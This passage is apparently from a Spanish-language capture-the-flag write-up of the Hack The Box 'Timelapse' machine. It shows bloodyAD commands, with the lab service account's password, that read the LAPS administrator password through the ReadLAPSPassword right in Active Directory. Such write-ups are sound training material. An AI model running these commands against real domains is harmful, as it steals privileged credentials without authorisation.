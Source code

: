 Teniendo estos archivos y para poder visualizar de manera grafica, para esto iniciaremos un servidor web con python3

```php
❯ python3 -m http.server 80
```

Ingresaremos en el navegador y observaremos una lista de usuarios, así como los grupos a los que pertenece. 

![20240306162127.png](20240306162127.png)


### laps-password

Para la explotacion de `ReadLAPSPassword` podemos revisar el siguiente post:
- [https://swisskyrepo.github.io/InternalAllTheThings/active-directory/pwd-read-laps/#extract-laps-password](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/pwd-read-laps/#extract-laps-password)
Para lograr explotar esto, podemos hacer uso de `bloodyAD` que podemos descargar desde GitHub.

```php
bloodyAD -u john.doe -d bloody.lab -p Password512 --host 192.168.10.2 get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```


Para descargar la herramienta de `bloodyAD` podemos ingresar a [CravateRouge - bloodyAD](https://github.com/CravateRouge/bloodyAD) y obtendremos una versión de la herramienta en Python.

```php
❯ python3 bloodyAD.py -u 'svc_deploy' -d timelapse.htb -p 'E3R$Q62^12p7PLlC%KWaxuaV' --host 10.10.11.152 get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```

![20240306162352.png](20240306162352.png)

Esta herramienta nos permitirá obtener las credenciales, en este caso la credencial del usuario `Administrator`
## Usuario : Administrator
